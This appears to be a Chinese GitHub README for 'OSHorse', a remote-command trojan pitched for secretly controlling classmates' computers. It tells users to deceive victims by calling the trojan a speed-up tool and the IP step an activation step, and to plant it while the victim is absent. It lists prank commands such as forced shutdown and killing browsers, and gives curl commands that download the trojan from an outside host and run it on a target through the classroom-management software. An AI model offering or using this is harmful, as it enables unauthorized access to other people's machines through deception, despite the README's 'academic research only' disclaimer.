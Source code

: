 # OSHorse，轻松控制同学电脑！

## 有关这个项目
最近一直在找机会研究如何破解极域电子教室，结果百度了几下，看到某篇利用电子教室控制同学的教程。

呃，这似乎有点麻烦，不如自己写一个罢…？

来看看这个远程命令程序！

个人博客介绍：https://blog.helloos.eu.org/index.php/blog/13

## 小技巧：
1. 谎称connecter.exe是个利用host加速的程序
2. 谎称输入控制机器的IP地址是要激活程序

当然你在同学不在的时候植入木马是最佳选择！

## 使用方法
1. 在控制机器上下载（链接附在文末）`HorseCommander.exe`并打开（切记，一定要先打开这个软件！）
2. 在目标机器上下载`connecter.exe`，并在程序同一目录下新建文本文档，内容为控制机器的IP地址(输入`ipconfig`查看，一般格式为`192.168.\*.\*`)。双击打开程序，目标机器可能会闪过一个黑框。
3. 回到控制机器，会显示连线者IP地址并显示提示符，您现在可以远程执行命令啦！

TIPS: 这个提示符的界面和cmd不一样，你可以执行`cd .`来查看目标机器上木马的工作目录，输入`help`查看木马内置命令。

坑同学小命令：
```cmd
#关机
shutdown -s -t [时间，单位为秒]
#重启
shutdown -r -t [时间，单位为秒]
#关闭chrome浏览器
taskkill -f -im chrome.exe
#关闭edge浏览器
taskkill -f -im msedge.exe
#弹出计算器
calc
#锁屏
lock
#弹窗
msg [消息]
```

## 使用极域电子教室反控制软件植入木马
本地
```cmd
curl "https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe" --output ./connecter.exe
ipconfig
```
远程
```cmd
cd %%temp%%/../../../Documents
curl "https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe" --output ./connecter.exe
echo [你的内网IP]>>connect.txt
./connecter.exe
```
## 下载
[下载HorseCommander.exe(控制)](https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe)

[下载connecter.exe(目标)](https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe)

### 免责声明：仅供学术研究使用。对于违反相关法律、造成危害的滥用行为，开发者不负任何责任。
